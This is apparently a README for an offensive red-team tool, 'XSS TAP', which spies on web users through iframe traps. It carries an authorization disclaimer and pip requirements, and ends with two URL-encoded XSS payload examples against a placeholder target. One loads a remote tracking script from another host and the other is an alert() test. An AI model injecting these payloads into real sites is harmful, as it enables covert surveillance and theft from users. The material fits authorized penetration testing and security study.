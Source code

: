 # XSS TAP
Tailored XSS payload that uses iFrame traps to spy on user. Intended for redteam ops. 
@hoodoer

This tool is intended to be used on systems you are authorized to attack.
Do not use this tool for illegal purposes, or I will be very angry in your general direction. 
@hoodoer


Pip requirements: 

Server ones:
flask
flask-cors

Generator ones:
dataframe_image
fpdf
progressbar


https://targetapp.possiblymalware.com/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%20src=%27http://localhost:8444/lib/telemlib.js%27%3E%3C/script%3E


https://targetapp.possiblymalware.com/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%3Ealert(%27XSS%27)%3C/script%3E

